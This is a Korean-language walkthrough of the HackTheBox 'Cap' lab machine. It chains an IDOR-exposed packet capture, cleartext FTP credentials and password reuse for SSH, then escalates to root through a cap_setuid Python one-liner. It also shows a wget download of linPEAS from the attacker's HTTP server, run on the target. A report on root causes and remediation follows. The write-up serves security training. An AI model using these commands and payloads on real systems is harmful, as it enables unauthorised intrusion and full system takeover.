






# Cap

## 1. 개요 (Overview)
- 머신 링크: https://app.hackthebox.com/machines/Cap
- 설명: 리눅스 머신에 침투해, 자격증명 취득 후 루트 권한 장악
- 목표: root 권한 획득
- 찾아야 할 데이터: User Flag, Root Flag
- 난이도: Easy

## 2. 정보수집 (Reconnaissance)
1. 주어진 정보는 TargetIP 주소만 존재하기에 nmap을 통해 port 확인
    - `nmap -sV -sC 10.129.192.146 > scan_res`
    ```text
    Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-04 23:28 -0500
    Nmap scan report for 10.129.192.146
    Host is up (0.35s latency).
    Not shown: 997 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    Gunicorn
    |_http-server-header: gunicorn
    |_http-title: Security Dashboard
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 26.58 seconds
    ```
2. 홈 페이지를 먼저 확인 진행
    
    사용자 명은 `nathan`으로 확인됨
3. Security Snapshot 페이지로 이동
    
    - `http://10.129.192.146/data/1`
    이외 페이지에서는 별다른 문제점을 찾지 못함
4. `ftp Anonymous@10.129.192.146` 실행
    - 익명 로그인 실패

## 3. 취약점 분석 (Vulnerability Analysis)
현재 나온 정보는 다음과 같다
### 열린 포트
- 21: FTP
- 22: SSH
- 80: HTTP
### 웹사이트
`http://10.129.192.146/data/1`
- 1은 캡처(스캔)의 번호값이라고 판단
- 해당 페이지에서 `Download` 버튼을 클릭하면 네트워크 패킷을 얻을 수 있음
### FTP
- FTP를 통한 통신이 이뤄진다고 볼 수 있음

### 공략
1. Security Snapshot 페이지로 이동
2. `http://10.129.192.146/data/0`로 주소 값 변경
    
3. 다운로드 진행해 네트워크 패킷을 통한 추가 정보 수집
    
    - 유저의 ID와 password 획득

## 4. 익스플로잇 (Exploitation)
얻은 값을 통해 접속을 진행
1. 얻은 값을 통해 FTP 진입
    - `ftp nathan@10.129.192.146`
    
    - `get` 명령어를 통해 `user.txt` 획득
2. ssh 접근
    - `ssh nathan@10.129.192.146` 비밀번호는 ftp와 동일하게 진행
    - 접근 성공

`SSH` 접근에 성공

## 5. 포스트 익스플로잇 (Post-Exploitation)
권한을 올리는 SUID 등 방법을 구상하기 위해 다음과 같은 방식으로 진행
### 1. `sudo -l`
```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```
가지고 있는 권한은 별도로 없었음

### 2. `linPEAS`를 통한 취약점 분석을 진행
linPEAS를 올리는 방법은 여러 방법이 존재하지만 공격자 로컬에서 타겟 PC에 올리는 방법으로 진행
linPEAS 파일은 공격자가 가지고 있다고 가정
1. 공격자 로컬에서 `python -m http.server 9999` 실행
2. target에서 `wget 10.10.16.215:9999/linpeas.sh` 실행
3. target에서 실행 권한 부여 `chmod +x linpeas.sh` 실행
4. `./linpeas.sh` 실행

### 3. linPEAS 결과

파이썬을 통한 cap(`cap_setuid`)이 가능

### 4. 루트 권한 취득
[GTFOBins](https://gtfobins.org/)

위 링크에서 명령어 확인 진행

`python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'` 실행

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~#
```
루트 권한 탈취 완료

파일은 서버 root 내에 존재

## 6. 보고서 (Report)
> CVE 없음 (IDOR + 평문 자격증명 노출 + Linux Capabilities 설정 오류의 체인)

### 요약 (Summary)
| 항목 | 내용 |
|------|------|
| 제품 / 영향 버전 | `Gunicorn` 기반 Security Dashboard(웹) / `vsftpd 3.0.3` / `/usr/bin/python3.8` (`cap_setuid+ep`) |
| 영향 개요 | 웹 접근만 가능한 비인증 공격자가 자격증명 탈취 → 쉘 획득 → root 권한 장악 |
| 관련 CWE | [CWE-639](https://cwe.mitre.org/data/definitions/639.html) (IDOR), [CWE-319](https://cwe.mitre.org/data/definitions/319.html) (평문 전송), [CWE-250](https://cwe.mitre.org/data/definitions/250.html) (불필요한 권한으로 실행) |
| CVSS | 해당 없음 (특정 제품 취약점이 아닌 설정 오류) |
| 공개일 / 패치 버전 | 해당 없음 |

### 원인 (Root Cause)
1. **IDOR**: `/data/<id>` 엔드포인트가 요청자에게 해당 캡처의 접근 권한이 있는지 검증하지 않아, id 값만 바꾸면 자신이 요청하지 않은 캡처(pcap) 파일도 내려받을 수 있음
2. **평문 프로토콜**: FTP는 인증 정보를 암호화 없이 전송하므로 캡처 파일 안에 `USER` / `PASS` 가 그대로 남음
3. **비밀번호 재사용**: FTP 계정과 SSH 계정이 같은 비밀번호를 사용
4. **Capability 설정 오류**: `/usr/bin/python3.8` 에 `cap_setuid` 가 부여되어, 일반 사용자가 실행해도 프로세스 UID를 0(root)으로 바꿀 수 있음

### 악용 조건 (Conditions)
- 80 포트 웹 서비스에 접근 가능해야 함 (인증 불필요)
- 처음 생성된 캡처(id `0`)에 FTP 로그인 트래픽이 포함되어 있어야 함
- 권한 상승 단계는 일반 사용자 쉘(`nathan`)이 확보된 상태여야 함

### 공격 흐름 (Attack Flow)
1. `nmap` 으로 21(FTP), 22(SSH), 80(HTTP) 확인
2. Security Snapshot 페이지의 `/data/1` 을 `/data/0` 으로 변경 → 자신이 요청하지 않은 캡처(id `0`)의 pcap 다운로드
3. Wireshark로 pcap 분석 → FTP `USER` / `PASS` 평문 자격증명 확인
4. 획득한 자격증명으로 FTP 접속 → `user.txt` 획득
5. 같은 비밀번호로 SSH 접속 성공
6. `sudo -l` 실패 → linPEAS 실행 → `python3.8` 의 `cap_setuid` 발견
7. GTFOBins의 python capabilities 페이로드로 `setuid(0)` 후 `/bin/bash` 실행 → root 획득

### 영향 (Impact)
웹 페이지 접근만으로 시작해 계정 탈취, 원격 쉘, root 권한까지 이어져 시스템 전체가 장악됨.
캡처 파일에는 서버의 네트워크 트래픽이 그대로 담겨 있으므로 자격증명 외의 민감 정보 유출 위험도 존재.

### 대응 방안 (Remediation)
- **접근 제어**: 객체 단위 권한 검증 적용 (요청자 세션과 캡처 소유자 일치 여부 확인), 예측 가능한 순차 id 대신 추측 불가능한 식별자 사용
- **암호화 프로토콜 사용**: FTP 대신 SFTP / FTPS 사용, 불필요하면 FTP 서비스 비활성화
- **비밀번호 정책**: 서비스 간 비밀번호 재사용 금지, SSH는 키 기반 인증으로 전환
- **Capability 정리**: `setcap -r /usr/bin/python3.8` 로 불필요한 capability 제거, `getcap -r / 2>/dev/null` 로 주기적 점검

### 본인 평가 (Assessment)
- 각각은 "id 검증 누락", "평문 FTP", "비밀번호 재사용", "capability 부여" 수준의 사소한 설정 오류지만, 하나로 이어지면서 비인증 상태에서 root까지 도달함
- 특정 CVE 패치만으로는 막을 수 없는 유형이라, 운영 환경에서는 설정 점검과 최소 권한 원칙이 더 중요하다는 점을 확인

### 참고 (References)
- [HackTheBox - Cap](https://app.hackthebox.com/machines/Cap)
- [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [CWE-319: Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)
- [CWE-250: Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)
- [GTFOBins](https://gtfobins.org/)
- [capabilities(7) - Linux manual page](https://man7.org/linux/man-pages/man7/capabilities.7.html)

## 7. 사용 도구/명령어 정리 (Tools & Commands)
### `ftp`
파일 전송 프로토콜(FTP) 서버에 접속하는 클라이언트 명령어
- `ftp {사용자}@{호스트}`: 해당 사용자로 접속 후 비밀번호 입력
- `Anonymous` 계정: 서버가 익명 로그인을 허용하는지 확인할 때 사용
- `get {파일}`: 서버의 파일을 로컬로 다운로드
- 인증 정보와 데이터가 평문으로 전송되어 패킷 캡처만으로 비밀번호가 노출될 수 있음

### `Wireshark`
네트워크 패킷을 캡처하고 분석하는 GUI 도구
- `.pcap` 파일을 열어 저장된 통신 내용을 프로토콜별로 확인 가능
- 디스플레이 필터 `ftp` 를 적용하면 FTP 명령(`USER`, `PASS`, `RETR` 등)만 골라서 볼 수 있음
- 패킷 우클릭 → `Follow` → `TCP Stream` 으로 한 세션의 대화 내용을 이어서 확인 가능

### `sudo -l`
현재 사용자가 `sudo` 로 실행할 수 있는 명령어 목록을 확인하는 옵션
- 권한 상승을 시도할 때 가장 먼저 확인하는 항목
- `NOPASSWD` 로 허용된 명령이 있으면 GTFOBins 등에서 악용 방법 확인 가능

### `linPEAS`
리눅스 권한 상승 벡터를 자동으로 열거하는 스크립트 (PEASS-ng 프로젝트)
- SUID 파일, capabilities, sudo 설정, cron, 쓰기 가능한 경로, 커널 버전 등을 한 번에 점검
- 위험도가 높은 항목은 빨간색/노란색 배경으로 강조 표시
- 타겟에 파일을 남기고 실행 흔적이 많이 남기 때문에 실제 환경에서는 사용에 주의

### `python -m http.server`
현재 디렉토리를 웹 서버로 공유하는 파이썬 내장 모듈
- `python -m http.server {포트}`: 지정한 포트로 서버 실행 (생략 시 8000)
- 공격자 PC에서 실행해 타겟이 `wget` / `curl` 로 파일을 받아가게 하는 용도로 사용

### `wget`
HTTP/HTTPS/FTP로 파일을 다운로드하는 명령어
- `wget {주소}:{포트}/{파일}`: 공격자 서버에서 파일을 받아 현재 디렉토리에 저장
- `-O {파일명}`: 저장할 파일명 지정

### Linux Capabilities (`cap_setuid`)
root 권한을 기능 단위로 쪼개 프로그램에 필요한 권한만 부여하는 리눅스 기능
- SUID와의 차이: SUID는 파일 소유자(root)의 권한 전체로 실행되지만, capability는 `cap_setuid`, `cap_net_raw` 처럼 특정 기능만 부여
- `cap_setuid`: 프로세스가 자신의 UID를 임의로 변경할 수 있는 권한 → `setuid(0)` 로 root가 될 수 있음
- `+ep`: `e`(effective, 즉시 적용) + `p`(permitted, 허용됨)
- 확인 명령어: `getcap -r / 2>/dev/null`
- 사용한 페이로드: `python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
  - `os.setuid(0)` 로 프로세스 UID를 root로 변경한 뒤 `/bin/bash` 를 실행해 root 쉘 획득


## 8. 핵심 고민 (Key Takeaway)
1. 상황: `Capabilities`에 대한 지식이 부족해 `GTFOBins`에서 명령어를 `SUID` 기준으로 진행했으나 불가능했음
2. 해결법: 찾는 방법은 SUID가 아닌 `Capabilities` 방식으로 진행해야 했음
3. 고민한 지점: SUID가 존재하지만, 왜 `cap_setuid`를 쓰는가? 같은 SUID가 아닌가? 하는 의문
4. 성찰:
    - `SUID`는 파일을 실행하는 순간 시작부터 파일 소유자 권한으로 동작하게 됨
        - 이 말은 소유자가 root라면 프로그램 코드 전체가 거대한 공격 표면이 됨
    - `cap_setuid`는 root가 아닌 프로그램이 UID를 바꿔야 할 때, root 권한 전체 대신 그 기능 하나만 받는 것
        - `SUID`처럼 root 권한 전체를 주지 않고 필요한 권한만 줘서 피해 범위를 줄임(최소 권한 원칙)
    - 그렇다면 어떻게 `cap_setuid`를 통해서 루트 권한을 얻을 수 있었는가?  
        - `cap_setuid`의 권한을 가진 프로세스는 `setuid(0)` 혹은 `setreuid(0, 0)` 같은 시스템 콜을 호출해 변경할 수 있는 커널의 권한을 얻음
        - 따라서 시스템 콜로 root 권한을 가진 채 쉘을 실행시킬 수 있다면 루트 권한 탈취가 가능
        - 또한 아무 코드나 실행 가능한 범용 인터프리터인 `python3.8`에 적용한 것이 서버의 큰 취약점 
5. 후속 조치
    - 권한 상승을 점검할 때 `SUID`만 확인하는 것이 아닌 `Capabilities`도 확인을 해보면 좋을 것으로 판단
        - SUID 찾는 명령어: `find / -perm -4000`
        - capability 찾는 명령어: `getcap -r /`

---
[← 목차로](./README.md)
